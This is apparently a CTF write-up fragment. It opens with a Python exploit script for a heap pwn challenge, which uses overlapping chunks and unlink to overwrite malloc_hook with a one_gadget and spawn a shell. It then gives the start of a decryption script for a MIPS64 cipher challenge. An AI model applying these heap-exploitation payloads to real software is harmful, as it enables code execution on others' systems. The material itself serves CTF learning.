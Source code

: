 ```python
add(6,0x80)
add(7,0x80)

add(8,0x5f0) # will be freed and consolidate with topchunk
delete(7)
pay = 0x80*b'\x00' + p64(0x230)
add(7,0x88)
edit(7,pay)

delete(8) #unlink
add(8,0x220)
add(9,0x90)
delete(8)
add(8,0x1c0)
add(10,0x60)

pay = b'a'*0x20 + p64(0) + p64(0x61)
pay += p64(heap_base + 0x2090)
pay += p64(malloc_hook - 0x38)
edit(7,pay)
info("libc_base",libc_base)
info("heap_base",heap_base)

add(11,0x50)
pay = b'\x00'*0x20 + p64(onegadget) + p64(realloc+9)
super_buy(pay)

add(12,0x70)

p.interactive()
```

## cipher

mips64 big endian，not stripped

Understand the logic of the program, write the correct decryption function

The initial value of key comes from the rand() function, you need to brute force the key

![t342RK.png](https://s1.ax1x.com/2020/06/01/t342RK.png)

exp：

```python
from struct import pack, unpack

def ROR(x,r):
    return (x>>r)|((x<<(64-r))&0xffffffffffffffff)
def ROL(x,r):
    return (x>>(64-r))|((x<<r)&0xffffffffffffffff)
def R(x,y,k):
    x = ROR(x,8)
    x = (x+y)&0xffffffffffffffff
    x^=k
    y = ROL(y,3)
    y^=x
    return x,y
def RI(x,y,k):
    y^=x
    y = ROR(y,3)
    x^=k
    x = (x-y)&0xffffffffffffffff
    x = ROL(x,8)
    return x,y
```